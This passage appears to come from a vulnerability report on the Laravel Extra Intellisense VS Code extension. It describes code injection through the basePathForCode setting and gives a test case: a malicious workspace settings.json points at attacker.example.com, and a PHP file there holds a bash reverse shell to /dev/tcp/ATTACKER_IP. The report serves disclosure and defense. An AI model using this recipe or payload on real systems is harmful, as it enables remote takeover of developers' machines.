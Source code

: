         2.  **`src/EloquentProvider.ts`, `src/ConfigProvider.ts`, `src/RouteProvider.ts`, `src/TranslationProvider.ts`, `src/ViewProvider.ts`, `src/BladeProvider.ts`, `src/AuthProvider.ts`, `src/AssetProvider.ts`, `src/MixProvider.ts`, `src/ViteProvider.ts`, `src/EnvProvider.ts`, `src/MiddlewareProvider.ts`, `src/ValidationProvider.ts`**: These provider files use `Helpers.runLaravel` which in turn uses `Helpers.projectPath(..., true)` when constructing the PHP code to execute. This makes them all potentially vulnerable if `basePathForCode` is maliciously configured. For example in `EloquentProvider.ts`:

        ```typescript
        Helpers.runLaravel(
            "foreach (['" + vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<Array<string>>('modelsPaths', ['app', 'app/Models']).join('\', \'') + "'] as $modelPath) {" +
            "   if (is_dir(base_path($modelPath))) {" +
            "      foreach (scandir(base_path($modelPath)) as $sourceFile) {" +
            "         if (substr($sourceFile, -4) == '.php' && is_file(base_path(\"$modelPath/$sourceFile\"))) {" +
            "             include_once base_path(\"$modelPath/$sourceFile\");" + // require_once using base_path
            "         }" +
            "      }" +
            "   }" +
            "}" +
            // ... rest of the PHP code
            , "Eloquent Attributes and Relations"
        )
        ```
        Here `base_path()` within the PHP code is affected by `basePathForCode` configuration through the `Helpers.projectPath(..., true)` usage in `Helpers.runLaravel`.

    * Security test case:

        1.  **Attacker setup:**
            - Create a malicious Laravel project directory.
            - Inside the project directory, create `.vscode` folder.
            - Inside `.vscode` folder, create `settings.json` file with the following content. Assuming attacker controls `http://attacker.example.com/malicious.php` which contains PHP code to execute a reverse shell:
            ```json
            {
                "LaravelExtraIntellisense.basePathForCode": "http://attacker.example.com"
            }
            ```
            - Create `malicious.php` on `http://attacker.example.com` with php reverse shell code, e.g., `<?php system('bash -c "bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1"'); ?>`

        2.  **Victim actions:**
            - Install Laravel Extra Intellisense extension in VSCode.
            - Download and extract the malicious project zip file.
            - Open the extracted project directory in VSCode.
            - Open any PHP or Blade file within the project, triggering the extension to execute Laravel commands.

        3.  **Verification:**
            - On the attacker machine, the `netcat` listener should receive a connection, confirming code injection from the malicious PHP file and RCE.
